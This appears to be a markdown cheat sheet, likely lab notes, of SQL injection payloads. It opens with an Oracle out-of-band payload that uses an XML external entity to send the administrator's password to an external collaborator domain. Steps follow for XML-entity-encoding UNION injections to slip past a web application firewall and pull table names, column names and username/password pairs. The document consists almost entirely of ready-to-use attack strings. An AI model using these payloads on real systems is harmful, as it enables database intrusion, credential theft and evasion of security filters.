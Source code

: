 ```
```
# Data exfiltration OOB
- Oracle
```
'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT password FROM users WHERE username='administrator')||'.e8n5knbbap4qr7o8vzm4ss9y7pdg1kp9.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
# Different contexts (XML encoding to bypass WAF)
1. Identify SQLi using AND payload
```
&#x41;ND 1
```
2. Identify DBMS using conditional errors for PostgreSQL
```
1 &#65;&#78;&#68; 1 = (&#83;ELECT CASE WHEN (1=1) THEN 1/(&#83;ELECT 0) ELSE NULL END)
```
3. Determine number of columns
```
ORDER BY 1
```
4. Determine UNION based attack works and can extract string data
```
1 &#85;NION &#83;ELECT &#39;sqli testing&#39;&#45;&#45;
```
5. Extract table names
```
1 &#85;NION &#83;ELECT table_name FROM information_schema.tables&#45;&#45;
```
6. Extract column names
```
1 &#85;NION &#83;ELECT column_name FROM information_schema.columns WHERE table_name = &#39;users&#39;&#45;&#45;
```
7. Use string concatenation to extract all information together
```
1 &#85;NION &#83;ELECT username||&#x27;~~~&#x27;||password FROM users&#45;&#45;
```


